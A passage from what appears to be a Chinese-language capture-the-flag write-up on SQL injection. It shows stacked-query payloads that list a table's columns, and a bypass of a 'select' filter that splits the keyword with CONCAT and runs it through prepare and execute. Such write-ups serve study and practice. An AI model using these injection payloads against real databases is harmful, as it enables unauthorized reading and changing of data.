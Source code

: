  发现有两张表，于是去查看这两张表的内容：方法一1';desc `1919810931114514`;#![](img/1ecd17965133fbf5684d61ad4c7acb1e.png)

 方法二：1';show columns from `1919810931114514`;#一样可以得到相同的结果

因为select被过滤掉了，所以我们采取预编译的方法(看wp才知道的vegetable dog)

```
set用于设置变量名和值
prepare用于预备一个语句，并赋予名称，以后可以引用该语句
execute执行语句
deallocate prepare用来释放掉预处理的语句
```

```
1';set @sql = CONCAT('se','lect * from `1919810931114514`;');prepare kkk from @sql;EXECUTE kkk;
相当于
1';
set @sql = CONCAT('se','lect * from `1919810931114514`;');
prepare kkk from @sql;
EXECUTE kkk;
```
